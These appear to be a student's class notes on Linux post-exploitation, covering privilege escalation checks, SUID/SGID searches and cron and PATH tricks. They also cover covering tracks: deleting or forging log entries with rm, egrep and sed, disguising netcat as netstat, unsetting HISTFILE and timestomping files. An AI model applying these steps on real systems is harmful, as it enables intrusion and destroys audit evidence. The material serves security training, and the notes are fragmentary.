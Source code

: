 # Privilege Escalation, Persistence & Covering Your Tracks
## LINUX
## priv escalation


### demo
```
sudo -l
id
w 
uname -a 
ps -elf
ls -la /etc/sudoers
ls -la /etc/sudoers.d
```
### SUID/SGID

The find command is likely the best tool for finding binaries that are SGID or SUID:
`find / -type f -perm /4000 -ls 2>/dev/null` # Find SUID only files
`find / -type f -perm /2000 -ls 2>/dev/null` # Find SGID only files
`find / -type f -perm /6000 -ls 2>/dev/null` # Find SUID and/or SGID files

`which passwd`
if the bit is set then thats files privledges will be granted to your user no matter your priv
`ls -la /usr/bin/pkexec` popular vulnerablity in past 

### CRON
`/var/spool/cron/crontabs/bob`
`/etc/crontab`

### world-writable files and folders


### dot "." in path
= hidden
`echo $PATH`
it adds working directory to path
`/bin/ls -la`
`which netstat`
`netstat ` can run this command instead of /bin/netstat everytime
`cd /tmp`
`which nc`
`cp /bin/nc /tmp/netstat`
`PATH=.:$PATH`
`echo $PATH`
`netstat` is going to check /tmp first since it your current working directory
`netstat -nvlp 8888` is actually nc obfuscated as netstat

### vulnerable software services and unpatched kernel vulnerabilities
dirtycow
pkexec
other tools besides sudo


## persistence


### adding or hijacking a user account

### boot process persistence
init.d

### cron job

### kernel module backdoors

## Covering your tracks

### artifcats
things left behind 
like files, logs, errors 
buffer overflow example

journald --verify
journalctl --verify

### system usage
using too much can slow down your machine

## NIX-ism
`unset HISTFILE`
be aware of init system: [SYSTEMV], upstart, [SYSTEMD]
determines what commands to use and logging structure

figure out init system:
```
ls -latr /proc/1/exe
stat /sbin/init
man init
init --version
ps 1
```
auditing SYSTEMV
`ausearch`: pulls from audit.log
```
ausearch -p 22
ausearch -m USER_LOGIN -sv no
ausearch -ua edwards -ts yesterday -te now -i
```
... wont worry bout this for test


 auditiing SYSTEMD
 utilized: `journalctl`
 ```
journalctl _TRANSPORT=audit
journalctl _TRANSPORT=audit | grep 603
```

### Logs for Covering Tracks
| Logs typically housed in /var/log & useful logs: | --- |
|--------|---------------------------------------|
| auth.log/secure | Logins/authentications |
| lastlog | Each users' last successful login time |
| btmp | Bad login attempts |
| sulog | Usage of SU command |
| utmp | Currently logged in users (W command) |
| wtmp | Permanent record on user on/off |

### Working w Logs
```
file /var/log/wtmp
find /var/log -type f -mmin -10 2> /dev/null
journalctl -f -u ssh
journalctl -q SYSLOG_FACILITY=10 SYSLOG_FACILITY=4
```

### Reading Files 
```
cat /var/log/auth.log | egrep -v "opened|closed"
awk '/opened/' /var/log/auth.log
last OR lastb OR lastlog
strings OR dd            # for data files
more /var/log/syslog
head/tail
```
control your ouput with "|" and "more"

### Cleaning the logs
before we start cleaning save the INODE!!
- affect the inode using "mv" vs "cp" vs "cat"
know what we are removing (entry times? ip? whole file? etc.)

what is inode: pointer to file 
`ls -lisa /var/log`
-i identifier

| cleaning the logs | -- |
|------------------|-------------|
|get rid of it | `rm -rf /var/log/...` |
| clear it | `cat /dev/null > /var/log/...` |
|           | `echo > /var/log/...` |
| GREP (remove) | `egrep -v '10:49*| 15:15:15' auth.log > auth.log2; cat auth.log2 > auth.log; rm auth.log2` |
| SED (replace) | `cat auth.log > auth.log2; sed -i 's/10.16.10.93/136.132.1.1/g' auth.log2; cat auth.log2 > auth.log` |

 ALWAYS WORK OFF A BACKUP

 ### Timestomp (NIX)
Access: updated when opened or used (grep, ls, cat, etc)
Modify: update content of file or saved
Change: file attribute change, file modified, moved, owner, permission

```
touch -c -t 201603051015 1.txt   # Explicit
touch -r 3.txt 1.txt    # Reference
```
-t change time
-r refernece file
could cause problems >:(
`stat <file>` to see timestamps

### remote logging
check config
RSYSLOG? be thorough

### RSYSLOG 
Newer Rsyslog references `/etc/rsyslog.d/*` for settings/rules
Older version only uses `/etc/rsyslog.conf`
Find out: `grep "IncludeConfig" /etc/rsyslog.conf`

### reading rsyslog
- utilizes severity (priority) and facility levels
- rules filter out, and can use keyword or number
  `<facility>.<priority>`


## main takeaways from class
priv esc: sudo -l
apt-get = downloading/installing apps
look on gtfobins
sudo apt-get changelog apt
whoami
see i am root

find / -type f -perm /4000 -ls 2>/dev/null
see pkexec go through nothing we can do right now
ll
ls -latr

utilize john to help crack passwords




help

cron jobs
echo $PATH checking . first
cd /tmp
ls -la 

leverage netcat

